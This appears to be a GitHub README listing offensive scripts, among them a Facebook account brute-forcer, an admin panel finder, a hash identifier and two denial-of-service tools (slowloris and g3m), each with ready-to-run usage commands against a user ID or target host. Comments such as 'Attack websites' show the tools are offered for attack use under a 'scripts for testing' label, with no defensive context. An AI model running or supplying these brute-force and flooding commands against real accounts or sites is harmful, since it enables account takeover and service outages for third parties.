 # Scripts for testing.

* fb-brute.pl = Bruteforce for Facebook
* hash_id_v1.1.py = Hash Identifier
* painel.pl = Admin Control Panel Finder
* slowloris.pl = Denial of Service
* g3m = Denial of Service

How to Install and use
----

 - fb-brute.pl:
```sh
$ sudo chmod +x fb-brute.pl
$ perl fb-brute.pl id-user-facebook wordlist.txt
```

 - hash_id_v1.1.py:
```sh
$ sudo chmod +x hash_id_v1.1.py
$ python2 hash_id_v1.1.py
``` 

 - painel.pl:
```sh
$ sudo chmod +x painel.pl
$ perl painel.pl
```

 - slowloris.pl:
```sh
$ sudo chmod +x slowloris.pl
$ perl slowloris.pl -dns www.target.com -port 80 -timeout 1 -num 1000 -tcpto 5
$ perl slowloris.pl -dns IP
```

 - g3m:
```sh
$ sudo chmod +x g3m
$ ./g3m -h ip -T 3              #Attack private internet
$ ./g3m -h ip -T 3 -p 80,80     #Attack websites
```
